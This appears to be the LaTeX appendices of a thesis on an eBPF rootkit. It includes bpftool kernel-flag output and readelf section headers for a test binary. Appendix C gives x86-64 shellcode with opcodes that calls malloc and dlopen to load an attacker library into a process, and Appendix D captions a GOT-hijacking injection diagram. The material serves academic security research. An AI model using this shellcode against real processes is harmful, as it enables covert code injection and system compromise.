%----------
%	ANEX
%----------	

%

%Including bpftool commands here to be referenced. Is it a good idea?

\chapter* {Appendix A - Bpftool commands} \label{annex:bpftool_flags_kernel}
\pagenumbering{gobble} % Las páginas de los anexos no se numeran
\section*{eBPF-related kernel compilation flags} 
\begin{lstlisting}[language=bash]
$ bpftool feature
\end{lstlisting}

\begin{verbatim}
CONFIG_BPF is set to y
CONFIG_BPF_SYSCALL is set to y
CONFIG_HAVE_EBPF_JIT is set to y
CONFIG_BPF_JIT is set to y
CONFIG_BPF_JIT_ALWAYS_ON is set to y
CONFIG_CGROUPS is set to y
CONFIG_CGROUP_BPF is set to y
CONFIG_CGROUP_NET_CLASSID is set to y
CONFIG_SOCK_CGROUP_DATA is set to y
CONFIG_BPF_EVENTS is set to y
CONFIG_KPROBE_EVENTS is set to y
CONFIG_UPROBE_EVENTS is set to y
CONFIG_TRACING is set to y
CONFIG_FTRACE_SYSCALLS is set to y
CONFIG_FUNCTION_ERROR_INJECTION is set to y
CONFIG_BPF_KPROBE_OVERRIDE is set to y
CONFIG_NET is set to y
CONFIG_XDP_SOCKETS is set to y
CONFIG_LWTUNNEL_BPF is set to y
CONFIG_NET_ACT_BPF is set to m
CONFIG_NET_CLS_BPF is set to m
CONFIG_NET_CLS_ACT is set to y
CONFIG_NET_SCH_INGRESS is set to m
CONFIG_XFRM is set to y
CONFIG_IP_ROUTE_CLASSID is set to y
CONFIG_IPV6_SEG6_BPF is set to y
CONFIG_BPF_LIRC_MODE2 is not set
CONFIG_BPF_STREAM_PARSER is set to y
CONFIG_NETFILTER_XT_MATCH_BPF is set to m
CONFIG_BPFILTER is set to y
CONFIG_BPFILTER_UMH is set to m
CONFIG_TEST_BPF is set to m
CONFIG_HZ is set to 250
\end{verbatim}


\chapter* {Appendix B - Readelf commands} \label{annex:readelf_commands}
\pagenumbering{gobble} % Las páginas de los anexos no se numeran
\section*{Section headers in ELF file} \label{annexsec:readelf_sec_headers}
\begin{lstlisting}[language=bash, caption={List of ELF section headers with readelf tool of a program compiled with GCC.}, label={code:elf_sections}]
$ readelf -S simple_timer
There are 36 section headers, starting at offset 0x4120:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         0000000000400318  00000318
       000000000000001c  0000000000000000   A       0     0     1
  [ 2] .note.gnu.pr[...] NOTE             0000000000400338  00000338
       0000000000000030  0000000000000000   A       0     0     8
  [ 3] .note.gnu.bu[...] NOTE             0000000000400368  00000368
       0000000000000024  0000000000000000   A       0     0     4
  [ 4] .note.ABI-tag     NOTE             000000000040038c  0000038c
       0000000000000020  0000000000000000   A       0     0     4
  [ 5] .gnu.hash         GNU_HASH         00000000004003b0  000003b0
       000000000000001c  0000000000000000   A       6     0     8
  [ 6] .dynsym           DYNSYM           00000000004003d0  000003d0
       0000000000000108  0000000000000018   A       7     1     8
  [ 7] .dynstr           STRTAB           00000000004004d8  000004d8
       00000000000000ad  0000000000000000   A       0     0     1
  [ 8] .gnu.version      VERSYM           0000000000400586  00000586
       0000000000000016  0000000000000002   A       6     0     2
  [ 9] .gnu.version_r    VERNEED          00000000004005a0  000005a0
       0000000000000050  0000000000000000   A       7     1     8
  [10] .rela.dyn         RELA             00000000004005f0  000005f0
       0000000000000030  0000000000000018   A       6     0     8
  [11] .rela.plt         RELA             0000000000400620  00000620
       00000000000000c0  0000000000000018  AI       6    24     8
  [12] .init             PROGBITS         0000000000401000  00001000
       000000000000001b  0000000000000000  AX       0     0     4
  [13] .plt              PROGBITS         0000000000401020  00001020
       0000000000000090  0000000000000010  AX       0     0     16
  [14] .plt.sec          PROGBITS         00000000004010b0  000010b0
       0000000000000080  0000000000000010  AX       0     0     16
  [15] .text             PROGBITS         0000000000401130  00001130
       00000000000004c5  0000000000000000  AX       0     0     16
  [16] .fini             PROGBITS         00000000004015f8  000015f8
       000000000000000d  0000000000000000  AX       0     0     4
  [17] .rodata           PROGBITS         0000000000402000  00002000
       00000000000000a5  0000000000000000   A       0     0     8
  [18] .eh_frame_hdr     PROGBITS         00000000004020a8  000020a8
       000000000000004c  0000000000000000   A       0     0     4
  [19] .eh_frame         PROGBITS         00000000004020f8  000020f8
       0000000000000120  0000000000000000   A       0     0     8
  [20] .init_array       INIT_ARRAY       0000000000403e10  00002e10
       0000000000000008  0000000000000008  WA       0     0     8
  [21] .fini_array       FINI_ARRAY       0000000000403e18  00002e18
       0000000000000008  0000000000000008  WA       0     0     8
  [22] .dynamic          DYNAMIC          0000000000403e20  00002e20
       00000000000001d0  0000000000000010  WA       7     0     8
  [23] .got              PROGBITS         0000000000403ff0  00002ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [24] .got.plt          PROGBITS         0000000000404000  00003000
       0000000000000058  0000000000000008  WA       0     0     8
  [25] .data             PROGBITS         0000000000404058  00003058
       0000000000000014  0000000000000000  WA       0     0     8
  [26] .bss              NOBITS           0000000000404070  0000306c
       0000000000000020  0000000000000000  WA       0     0     16
  [27] .comment          PROGBITS         0000000000000000  0000306c
       0000000000000025  0000000000000001  MS       0     0     1
  [28] .debug_aranges    PROGBITS         0000000000000000  00003091
       0000000000000030  0000000000000000           0     0     1
  [29] .debug_info       PROGBITS         0000000000000000  000030c1
       0000000000000295  0000000000000000           0     0     1
  [30] .debug_abbrev     PROGBITS         0000000000000000  00003356
       00000000000000fd  0000000000000000           0     0     1
  [31] .debug_line       PROGBITS         0000000000000000  00003453
       000000000000024d  0000000000000000           0     0     1
  [32] .debug_str        PROGBITS         0000000000000000  000036a0
       00000000000001f5  0000000000000001  MS       0     0     1
  [33] .symtab           SYMTAB           0000000000000000  00003898
       0000000000000480  0000000000000018          34    22     8
  [34] .strtab           STRTAB           0000000000000000  00003d18
       00000000000002a2  0000000000000000           0     0     1
  [35] .shstrtab         STRTAB           0000000000000000  00003fba
       000000000000015f  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
\end{lstlisting}


\chapter* {Appendix C - Library injection shellcode} \label{annex:shellcode}
\pagenumbering{gobble} % Las páginas de los anexos no se numeran
\begin{lstlisting}[language={[x86masm]Assembler}, caption={Shellcode for library injection and its opcodes.}, label={code:shellcode}]
# Saving state of registers
push rbp  # 55
push rax  # 50
push rcx  # 51
push rdx  # 52
push rbx  # 53
push rdi  # 57
push rsi  # 56

# Call malloc. Get address in the heap
mov edi,0x2000 # BF00200000
mov rbx, <malloc address libc>  # 48BB<address little endian 64bit>               
call rbx  # FFD3
mov rbx, rax  # 4889C3

# Write the string of the library path into reserved memory
mov dword [rax],0x6d6f682f  # C7002F686F6D 
mov dword [rax+0x4],0x736f2f65  # C74004652F6F73
mov dword [rax+0x8],0x65786f62  # C74008626F7865
mov dword [rax+0xc],0x46542f73  # C7400C732F5446
mov dword [rax+0x10],0x72732f47  # C74010472F7372
mov dword [rax+0x14],0x65682f63  # C74014632F6865
mov dword [rax+0x18],0x7265706c  # C740186C706572
mov dword [rax+0x1c],0x6e692f73  # C7401C732F696E
mov dword [rax+0x20],0x7463656a  # C740206A656374
mov dword [rax+0x24],0x5f6e6f69  # C74024696F6E5F
mov dword [rax+0x28],0x2e62696c  # C740286C69622E
mov dword [rax+0x2c],0x6f73  # C7402C736F0000

# Call dlopen.
mov rax, <dlopen address libc>  # 48B8<address little endian 64bit>
mov rsi, 0x1  # BE01000000
mov rdi, rbx  # 4889DF
sub rsp,0x1000  # 4881EC00100000
call rax  # FFD0

# Restoring state of registers and execution flow
add rsp,0x1000  # 4881C400100000
pop rsi  # 5E
pop rdi  # 5F
pop rbx  # 5B
pop rdx  # 5A
pop rcx  # 59
pop rax  # 58
pop rbp  # 5D

# Jump to the original syscall
jmp qword ptr [rip+0x0]  # FF2500000000
<address original syscall glibc 64bit>

\end{lstlisting}


\chapter* {Appendix D - Rootkit flow diagrams} \label{annex:flow_diagrams}
\pagenumbering{gobble} % Las páginas de los anexos no se numeran
\section*{Library injection via GOT hijacking} \label{annexsec:lib_injection}
\begin{figure}[htbp]
	\centering
	
\includegraphics[width=15cm]{flow_lib_injection_compact.png}
	\caption{Flow diagram of execution of a successful library injection.}
	\label{fig:flow_lib_injection_compact}
\end{figure}